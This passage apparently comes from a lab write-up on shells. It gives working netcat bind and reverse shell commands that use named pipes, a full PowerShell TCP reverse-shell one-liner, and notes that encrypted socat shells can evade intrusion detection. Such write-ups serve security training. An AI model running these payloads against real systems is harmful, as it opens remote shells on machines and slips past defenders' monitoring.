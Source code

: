 
### ✅ Why Encrypt?

- Prevents interception or eavesdropping
- Can evade some network intrusion detection systems
- Looks like standard encrypted traffic

---

#### 📸 Screenshot: Encrypted Socat Reverse Shell Demonstration
![Encrypted Shell via Socat](https://github.com/user-attachments/assets/a36c19b1-53c3-47d0-9520-9dee033630ff)

---

Use this setup when stealth or secure communication channels are required. Just remember, the certificate must be used on the listening side (attacker or target, depending on shell direction).



## 📦 Task 8: Common Shell Payloads

This task explores common methods to establish reverse and bind shells using netcat and PowerShell.

---

### 🧱 Netcat Bind Shell with Named Pipe

Use this command when `-e` is not supported by netcat:
```bash
mkfifo /tmp/f; nc -lvnp 8080 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

#### 📸 Screenshot: Netcat Bind Shell via Named Pipe
![Bind Shell Named Pipe](https://github.com/user-attachments/assets/c81629cf-d704-491b-9755-7c2ba27f1f4a)

---

### 🔁 Netcat Reverse Shell using Named Pipe

Similar to the bind version, this creates a reverse shell:
```bash
mkfifo /tmp/f; nc <attacker-ip> <port> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

#### 📸 Screenshot: Netcat Reverse Shell via Named Pipe
![Reverse Shell Named Pipe](https://github.com/user-attachments/assets/0348384c-7378-4d3a-b475-cf0412adcdce)

---

### 💻 PowerShell One-liner Reverse Shell

Use this payload on modern Windows systems:
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
